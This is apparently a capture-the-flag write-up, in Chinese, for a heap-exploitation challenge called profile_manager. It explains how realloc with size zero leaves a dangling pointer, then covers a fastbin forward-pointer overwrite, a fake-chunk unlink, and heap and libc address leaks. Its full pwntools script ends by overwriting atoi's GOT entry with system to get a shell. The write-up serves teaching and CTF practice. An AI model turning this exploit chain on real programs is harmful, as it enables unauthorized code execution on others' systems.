 ## profile_manager
### solution
本題沒有什麼能利用的overflow，但`edit_profile`存在漏洞，如下
```c
void edit_profile(){
...
		read(0,buf,16);
		tmp = realloc(p[idx].name,strlen(buf));
		if(!tmp){
			puts("Realloc Error !");
			return ;
		}
```
若是直接傳`"\x00"`可使`strlen(buf)`為0，導致`realloc`的size為0，則會使`p[idx].name`被`free`，而此處直接return `p[idx].name`並不會被清0，成為dangling pointer。

接著，此時被free的chunk已經進入fastbin中，但我們再次呼叫`edit_profile`，`realloc`檢查chunk size發現足夠後並不會重新allocate，因此我們可以仍然可以對`p[idx].name`進行寫入，達到overwrite fastbin link中的`FD`的效果。

利用overwrite fastbin link，我們可以先將兩塊fake chunk寫在descrption中，再使`FD`指向第二塊fake chunk，之後即可allocate拿到該chunk進行unlink。

```
        |-----------|
desc -> | prev_size |
        |    size   |
        |    ...    |
        | prev_size2| <- FD <- fastbin
        |    size2  |
        |-----------|
```
接著必須確定以下資訊：
* heap base
FD必須寫為fake chunk的位址，而fake chunk在heap上，因此必須知道heap base。

類似overwrite FD的道理，我們可以透過free構造fastbin list，使得dangling pointer指向fastbin中的`FD`，即可用`show_profile`將其print出來，再計算出heap base。
需要注意的是不能使dangling指向`p[0]->name`，因為結尾必定是`"\x00"`導致無法print。exploit中是構造`fastbin->chunk0->chunk1`的list，再以`show_profile`讀取chunk0的`FD`(=&chunk1)。

* unlink target
因為`edit_profile`中能修改`desc`的code如下，若是指向的空間一開始即為0則無法寫入任何資料。
```c
read(0,p[idx].desc,strlen(p[idx].desc));
```


由於fake chunk寫在descrption內，target必定是`profile[i]->desc`，unlink後target會指向自己-0x18，而若是以`p[0]->desc`為目標，則會指向到heap下方一小塊全部為0的space。

因此必須選擇`i = 1`以上，則`p[i].desc -> p[i-1].desc`，此時裡面的內容為其他的heap address，至少為3bytes，我們即可將其蓋為`atoi@got`。

成功將desc蓋為`atoi@got`之後，先以`show_profile` leak出libc位址，接著計算出`system`後再同樣以`edit_proflie`寫入，最後在選單輸入`sh`即可拿到shell。

整理步驟為：
1. 構造fastbin list同時寫入fake chunks，leak heap
2. 使fastbin list中的FD指向fake chunk2
3. allocate拿到fake chunk2
4. 對fake chunk2進行unlink，此時某個desc指向前一個desc
5. 將其內容寫為`atoi@got`，再以`show_profile` leak libc
6. 以`edit_profile`將`atoi@got`寫為`system`

### script
```python
#!/usr/bin/env python3
from pwn import *

context(arch="amd64")

#r = process("profile_manager")
binary = ELF("profile_manager")
libc = ELF("libc.so.6")
r = remote("csie.ctf.tw", 10140)

def send(s):
    r.recvuntil(":")
    r.send(s)

def add_profile(name, age, length, desc):
    send("1")
    send(name)
    send(str(age))
    send(str(length))
    send(desc)

def show_profile(idx):
    send("2")
    send(str(idx))

def edit_profile(idx, name, age, desc):
    send("3")
    send(str(idx))
    send(name)
    if name == "\x00":
        return
    send(str(age))
    send(desc)

def del_profile(idx):
    send("4")
    send(str(idx))

target = binary.symbols[b'p'] + 0x28
chunk = p64(0) + p64(0x71) # size + prev_size
chunk += p64(target - 0x18) + p64(target - 0x10) #fd, bk
chunk += b"a" * 0x50
chunk += p64(0x70) + p64(0x20) # prev_size, size(fastbin)

# alloc chunk0, 1
# free chunk1, 0
# fastbin -> chunk0 -> chunk1
add_profile("X", 0x87, 0x90, "aaaa")
add_profile("X", 0x87, 0x90, chunk)
edit_profile(1, "\x00", 0, 0)
edit_profile(0, "\x00", 0, 0)

# leak chunk1, compute heapbase
show_profile(0)
r.recvuntil("Name : ", drop=True)
heapbase = u64(r.recvuntil("\n", drop=True).ljust(8, b'\x00')) - 0xc0
r.recvuntil("Desc : ")

# fastbin -> chunk0 -> fakechunk(base+0x160)
edit_profile(0, p64(heapbase + 0x160), 0x33, "cccc")

# alloc p[2].name = chunk0
# fastbin -> fakechunk
add_profile("X", 0x87, 0x90, "bbbb")
# alloc p[3].name = fakechunk
add_profile("X", 0x87, 0x90, "dddd")
# unlink(p[3].name)
del_profile(3)
# now, p[1].desc -> p[0].desc
# make p[0].desc = atoi@got
edit_profile(1, "66666", 0x33, p64(binary.got[b'atoi']))
# leak atoi, compute system
show_profile(0)
r.recvuntil("Desc : ", drop=True)
atoi = u64(r.recv(6).ljust(8, b'\x00'))
system = atoi - libc.symbols[b'atoi'] + libc.symbols[b'system']
# make atoi@got = system
edit_profile(0, "X", 0x87, p64(system))

r.interactive()
# run sh
```
